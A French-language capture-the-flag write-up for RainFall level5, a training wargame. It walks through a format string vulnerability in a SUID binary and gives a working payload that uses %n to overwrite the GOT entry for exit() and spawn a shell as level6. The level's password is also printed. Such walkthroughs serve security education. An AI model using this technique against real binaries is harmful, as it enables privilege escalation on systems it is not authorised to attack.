 # RainFall CTF - Level5

## Reconnaissance

### Fichier trouvé
```bash
level5@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level6 users 5403 Mar  6  2016 level5
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `level6` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `level6`

## Analyse statique avec Ghidra

### Fonction main
```c
void main(void) {
  n();
  return;
}
```

### Fonction n (vulnérable)
```c
void n(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);          // ← VULNÉRABILITÉ FORMAT STRING
  exit(1);
}
```

### Fonction cachée non utilisée
```c
void o(void) {
  system("/bin/sh");
  _exit(1);
}
```

**Code assembleur :**
```asm
o:
080484a4 55    PUSH EBP
```

L'adresse de la fonction `o()` est **`0x080484a4`**.

## Analyse des vulnérabilités

### Format String Vulnerability
- **Fonction dangereuse** : `printf(local_20c)` dans `n()`
- **Problème** : Input utilisateur passé directement comme format string
- **Impact** : Contrôle total des spécificateurs de format

### Stratégie d'exploitation
Au lieu de modifier une variable comme dans les niveaux précédents, cette fois il faut **rediriger l'exécution** vers la fonction cachée `o()`.

**Méthode** : Écraser l'entrée GOT (Global Offset Table) de `exit()` pour qu'elle pointe vers `o()`.

## Reconnaissance des adresses

### Adresse GOT de exit()
```bash
objdump -R ./level5
```

**Résultat :**
```
DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
...
08049838 R_386_JUMP_SLOT   exit
...
```

L'adresse GOT de `exit()` est **`0x08049838`**.

### Localisation sur la pile
```bash
python -c "print('\x38\x98\x04\x08' + '0x%x ' * 20)" | ./level5
```

L'adresse GOT `0x08049838` apparaît à la **position 4** sur la pile.

## Construction de l'exploit

### Valeur à écrire
- **Adresse cible** : `0x080484a4` (fonction `o`)
- **Conversion décimale** : `134513828`

### Calcul du payload
```
Adresse GOT : 4 caractères
Padding printf : 134513824 caractères  
Total : 134513828 caractères = 0x080484a4
```

### Payload final
```bash
(python -c "print('\x38\x98\x04\x08' + '%134513824x%4\$n')"; cat) | ./level5
```

**Structure :**
- `\x38\x98\x04\x08` : Adresse GOT de `exit()` (4 octets)
- `%134513824x` : Spécificateur de largeur (génère 134513824 caractères)
- `%4$n` : Écrit le nombre total de caractères (134513828) à la position 4

## Mécanisme d'exécution

1. `fgets()` lit le payload dans `local_20c`
2. `printf(local_20c)` exécute la format string :
   - Affiche l'adresse GOT (`0x08049838`)
   - `%134513824x` génère 134 millions d'espaces
   - `%4$n` écrit `134513828` dans la GOT de `exit()`
3. La GOT de `exit()` contient maintenant l'adresse de `o()` (0x080484a4)
4. `exit(1)` appelle la fonction à l'adresse stockée dans la GOT → redirige vers `o()`
5. `o()` exécute `system("/bin/sh")` avec les privilèges de level6

## Exploitation réussie

```bash
level5@RainFall:~$ (python -c "print('\x38\x98\x04\x08' + '%134513824x%4\$n')"; cat) | ./level5
[134 millions d'espaces...]
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

### Accès niveau suivant
- **Utilisateur** : `level6`
- **Prochain challenge** : `/home/user/level6/`

## Notes techniques

- **Type de vulnérabilité** : Format String Vulnerability avec GOT Overwrite
- **Technique d'exploitation** : Redirection de fonction via Global Offset Table
- **Architecture** : x86 (32-bit)
- **Concepts avancés** :
  - **GOT Overwrite** : Modification des pointeurs de fonctions systèmes
  - **Redirection d'exécution** : Détournement d'appels de fonctions
  - **Spécificateurs de largeur** : Génération automatique de caractères par `printf`
- **Valeur écrite** : 134513828 (0x080484a4)
- **Optimisation** : Écriture multi-parties pour les grandes valeurs
- **Difficulité** : Avancé - Introduction aux techniques GOT overwrite

## Évolution par rapport aux niveaux précédents

Ce niveau introduit :
- **GOT Overwrite** au lieu de modification de variables
- **Redirection de flux d'exécution** via pointeurs de fonctions
- **Gestion de très grandes valeurs** en format string
- **Optimisations de performance** pour les exploits pratiques

Cette progression montre l'évolution vers des techniques d'exploitation plus sophistiquées utilisées dans des scénarios réels.
